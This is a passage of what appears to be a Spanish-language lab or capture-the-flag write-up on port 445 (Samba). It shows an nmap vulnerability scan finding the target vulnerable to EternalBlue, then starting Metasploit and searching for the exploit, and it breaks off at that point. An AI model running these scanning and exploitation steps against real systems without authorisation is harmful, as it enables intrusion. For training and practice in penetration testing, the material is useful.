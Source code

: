 ### PUERTO 445 - SAMBA
- Pruebo si es vulnerable a la vulnerabilidad de **eternal blue**. Los pasos que hay que seguir son:
```
nmap --script "vuln and safe" -n -Pn -p445 10.10.65.129 -oN vulnScan
```
<p align="center">
    <img src="../img/Pasted_image_20240818214036.png" width="500">
</p>
es vulnerable.
#### 1- INICIAR METASPLOIT
```
msfconsole -q
```
<p align="center">
    <img src="../img/Pasted_image_20240817223825.png" width="500">
</p>

####  2-BUSCAR EXPLOIT
```
search eternalblue
```
<p align="center">